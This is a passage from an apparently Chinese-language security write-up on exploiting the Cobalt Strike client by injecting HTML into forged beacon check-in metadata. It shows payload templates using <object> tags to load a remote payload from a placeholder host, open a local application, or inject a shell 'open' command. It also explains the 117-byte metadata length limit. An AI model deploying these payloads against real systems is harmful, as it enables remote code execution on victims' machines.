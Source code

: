 加载远程payload，比如jndi什么的

    
    
    <html><object classid='xxx.xxx.xxx.xxx'><parame name='XXX' value='http://xxx.xxx.xxx.xxx/payload'>  
    

或者是直接打开本地的exe之类的

    
    
    <html><object classid='xxx.xxx.xxx.xxx'><parame name='XXX' value='file:///System/Applications/Calculator.app'>  
    

又或者是命令注入

    
    
    <html><object classid='xxx.xxx.xxx.xxx'><parame name='XXX' value='";open http://www.baidu.com'>  
      
    

是不是这几种的可能性最大？  **关于用哪条链，我这边就不公开了，有兴趣的同学按照这个思路来寻找我相信很快就能在几百个类中找到可能的链了。**
接下来关于payload的长度，这怎么看都得六七十以上了，那么就会引出后续的一些限制问题。

## 0x04 CS自身的限制

大家也都知道如何利用模拟beacon协议来插入img标签了，我这边再简单复述一下
`https://github.com/LiAoRJ/CS_fakesubmit`
这是一个模拟beacon的上线包的脚本，之前是用来打dos用的，现在可以用来插入payload，具体用法github里都有我就不赘述了。当插入数据的长度较长时，我们会发现一个问题：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220927173751.png)

这里加上长payload后整体的包长度为132字节，而他报错意思是整个空间只有117字节，也就是说payload是有最大长度限制的。我们来更具体的解析一下为什么会有长度限制。先来大概了解一下beacon和team
server之间的交互流程，其实我也是临时百度的文章自己，基本上搜一下就有了类似的协议解析文章。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220927173753.png)

我也不赘述太多，大家可以先自己看一看文章 `https://www.ijiandao.com/2b/baijia/423712.html`

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220927173754.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220927173757.png)

简单来说分为两部分，第一部分是上线包，上线包是由RSA加密的metadata插在cookie里，这个metadata就是元数据，大体包含一些基本信息比如用户名、主机名、操作系统信息和AES
KEY等。teamserver通过metadata里解析这些数据后显示在首页，从里面获取aes
key后用于后续的任务下发相关的数据加解密。而我们再来看CS的client的首页都有啥

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220927173758.png)

没错，就是这熟悉的几个字段，这些字段中大部分信息都来自于metadata。而metadata里的数据就是我们可以控制的插入到teamserver上进行展示的数据。回到117字节限制问题上来，我们在到CS的代码里看一看

我们来到cs的teamserver的代码里直接搜117:

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220927173759.png)

跟进asymmetricCrypto.java里看看
